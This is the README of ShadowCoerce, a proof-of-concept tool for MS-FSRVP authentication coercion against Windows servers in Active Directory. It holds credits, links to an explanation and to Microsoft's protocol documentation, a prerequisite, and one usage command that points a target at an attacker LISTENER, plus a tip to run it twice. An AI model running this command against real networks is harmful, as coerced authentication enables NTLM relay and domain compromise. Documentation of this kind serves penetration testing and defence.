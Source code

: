 # ShadowCoerce
MS-FSRVP coercion abuse PoC

Credits: Gilles LIONEL (a.k.a. Topotam)
Source: https://twitter.com/topotam77/status/1475701014204461056

Explanation: https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-fsrvp

MS Docs: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

"File Server VSS Agent Service" needs to be enabled on the target server.

```shell
shadowcoerce.py -d "domain" -u "user" -p "password" LISTENER TARGET
```

*In my tests, the coercion needed to be attempted twice in order to work when the FssAgent hadn't been requested in a while. **TL;DR: run the command twice if it doesn't work.***